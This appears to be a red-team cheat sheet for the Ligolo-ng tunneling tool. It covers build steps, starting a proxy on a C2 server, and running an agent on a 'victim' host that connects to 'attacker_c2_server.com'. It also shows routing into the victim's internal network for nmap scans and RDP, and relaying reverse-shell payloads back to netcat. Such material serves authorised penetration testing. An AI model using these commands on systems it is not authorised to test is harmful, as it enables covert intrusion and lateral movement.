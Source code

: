 # Ligolo-ng 

## Github repo: https://github.com/nicocha30/ligolo-ng

## Precompiled Binaries: https://github.com/nicocha30/ligolo-ng/releases

# Build

- go build -o agent cmd/agent/main.go

- go build -o proxy cmd/proxy/main.go

- Build for Windows

- GOOS=windows go build -o agent.exe cmd/agent/main.go

- GOOS=windows go build -o proxy.exe cmd/proxy/main.go

# Setup

### Linux

- sudo ip tuntap add user YOUR_USERNAME mode tun ligolo

- sudo ip link set ligolo up

### Windows

#### You need to download the Wintun driver (used by WireGuard) and place the wintun.dll in the same folder as Ligolo (make sure you use the right architecture).

#### Links: https://www.wintun.net/

### Start the proxy server on your Command and Control (C2) server (default port 11601):

- ./proxy -h  (Help options)

- ./proxy -autocert (Automatically request LetsEncrypt certificates)

# Usage

 -  ./agent -connect attacker_c2_server.com:11601 (Start the agent on your target (victim) computer (no privileges are required!)

## TIP: If you want to tunnel the connection over a SOCKS5 proxy, you can use the --socks ip:port option. You can specify SOCKS credentials using the --socks-user and --socks-pass arguments.

### A session should appear on the proxy server.

 - INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000" (Example)

### Use the session command to select the agent.

 - ligolo-ng » session 

 - ? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000

### Display the network configuration of the agent using the ifconfig command:

 - [Agent : nchatelain@nworkstation] » ifconfig

### Add a route on the proxy/relay server to the 192.168.0.0/24 agent network.

 - sudo ip route add 192.168.0.0/24 dev ligolo (Linux)

 - netsh int ipv4 show interfaces

 - route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE_INTERFACE_IDX] (Windows)

### Start the tunnel on the proxy

 - [Agent : nchatelain@nworkstation] » tunnel_start

 - [Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   

### You can also specify a custom tuntap interface using the --tun iface option:

 - [Agent : nchatelain@nworkstation] » tunnel_start --tun MY_CUSTOM_TUN_TAP

 - [Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   

### You can now access the 192.168.0.0/24 agent network from the proxy server.

## Examples:

 - $ nmap 192.168.0.0/24 -v -sV -n

 - [...]

 - $ rdesktop 192.168.0.123

 - [...]

# Agent Binding/Listening

### You can listen to ports on the agent and redirect connections to your control/proxy server.

### In a ligolo session, use the listener_add command.

 - [Agent : nchatelain@nworkstation] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp (Creates a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server)

 - INFO[1208] Listener created on remote agent!

### On the proxy:

 - nc -lvp 4321 (When a connection is made on the TCP port 1234 of the agent, nc will receive the connection.)

## TIP: This is very useful when using reverse tcp/udp payloads.

### You can view currently running listeners using the listener_list command and stop them using the listener_stop [ID] command:

 - listener_list

 - listener_stop ID

## Access to agent's local ports (127.0.0.1)

### If you need to access the local ports of the currently connected agent, there's a "magic" IP hardcoded in Ligolo-ng: 240.0.0.1 ( This IP address is part of an unused IPv4 subnet). If you query this IP address, Ligolo-ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).

#### Example:

 - sudo ip route add 240.0.0.1/32 dev ligolo

 - nmap 240.0.0.1 -sV
